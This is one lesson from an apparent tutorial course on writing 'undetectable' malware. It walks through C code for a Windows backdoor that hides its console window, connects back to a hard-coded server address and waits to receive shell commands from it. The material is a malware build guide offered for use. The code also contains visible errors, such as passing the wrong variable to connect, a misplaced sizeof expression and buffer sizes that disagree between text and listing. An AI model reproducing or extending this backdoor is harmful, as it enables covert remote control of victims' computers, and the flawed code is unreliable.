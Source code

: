```yaml
---
title: Creating our shell function
course: undetectable_malware
section: "Executing shell commands"
layout: lesson
---
```


As stated in the previous lesson, we will start working in our "Shell" function
which will receive a command from the server, execute it in the client and
return the output back to the server.

As you could see in the previous lesson, at the very end of the "_WinEntry_"
function, we called a function "Shell", function which we have not created yet.
So let's go to the beginning of the program right above the "**APIENTRY**
_WinMain_" function and the "_Shell_" function is going to be a void. What does
it mean? A "**void**" function means, that it will not return anything, for
example, if you code a function integer (**int**) it means, that the integer
function will return an int value, for example, one or zero. Add this to the
beginning of your code to define the "Shell" function:

```c
void Shell() {
}
```

Once the function "_Shell_" is defined, we will create three different variables
inside of it. The first one is going to be the buffer variable it is going to be
a char type variable and is going to contain "1024" bytes of memory, we are
going to use this variable to save the command from the server. Consider the
following scenario. We are running our server (keep in mind we have not coded
it yet) and we send the command to the target which is going to be for example
_Delete the 'homework.docx' file_, that command will be stored in the buffer
variable. The second variable we will need to define is the container variable,
I will call it container and that variable is also going to be char type and
will also allocate 1024 bytes of memory (the use of this variable will be
explained later). And the third variable we will need to define is
"_total_response_" which is also a char, but it will allocate "18384" bytes of
memory, it means that this variable is way more large than the previous two.
This is how our "_Shell_" function looks like so far:

```c
void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[18384];
}
```

Once we have defined those three variables, we are ready to define another loop
which will be executed for ever and will wait for incoming commands. To create
an inifnite loop, simply type:

```c
while (1) {
}
```

As we did in the "_WinMain_" function, we will also need to create a jump point
right before everything in our while loop.

```c
while (1) {
  jump:
    Code goes here
    ...
}
```

Now, what we are going to do, is to take the three variables we created and we
will allocate zeroes inside all of the memory that they take. For example, if
there are some random bytes in the 1024 bytes of memory that "_buffer_" takes,
we will set it all to zero. We already know that there is a function called
"_memset_" which we already used before, and this function takes three arguments
which is the variable name, the bytes we want to overwrite and the size we want
to overwrite. But we will not use this function, because we are would use it a
lot of times inside this program, let's create a smaller function that is going
to perform the same task.

We are going to create the "_bzero_" function, and for those who are wondering
"_bzero_" that is exactly the same as "_memset_", just that it is usable only on
linux, but as we are creating an application for Windows, we can't simply use
the "_bzero_" function and expect it to work, we need to define this function.
How can we define it? Inside of "_C_" we can use "_#define_", after that, we
type the name of the function (in this case "_bzero_"), open brackets and
specify what parameters are going to be needed. Our "_bzero_" function will take
two arguments, the first one will be the variable and the second one will be the
size. For example, if we want to zeroe the variable "_buffer_", we would execute
"_bzero(buffer, 1024)_". Defining the variable name and arguments are not the
only things we need to do, we also need to tell to the program how it should
work, how it can zeroe a memory section, we can port the arguments taken from
the "_bzero_" function to the "_memset_" function which will work in windows in
the same line, to do so, type the following:

```c
#define bzero(p, size) (void) memset((p), 0, (size))
```

Now that we have the "_bzero_" function in our program, so now we can use it in
our while loop so we can "_bzero_" all of the three variables previously
defined. Our while loop looks like this so far:

```c
while (1) {
  jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));
}
```

So now let's see how we can use these variables. The first thing our program
needs to do is to receive the command of our server, how can we do that? we can
do it by using the "_recv_" (receive) function, this function takes four
  parameters, the first one is the socket we created, which we called "_sock_",
the second parameter is where the received data from the server will be stored,
in our case "_buffer_" the third parameter, is the size of the variable where we
are storing the received data, so it is going to be "_1024_" bytes, and the
fourth parameter will be zero, which specifies we are not passing any other
argument besides the three previous paramters. That entire line would look lilke
this:

```c
recv(sock, buffer, 1024, 0);
```

Now, when whe received the data sent by the server, we can enter our if/else
statements.

This is how our code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;

void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[1024];

  while(1) {
    jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));

    recv(sock, buffer, 1024, 0);
  }
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
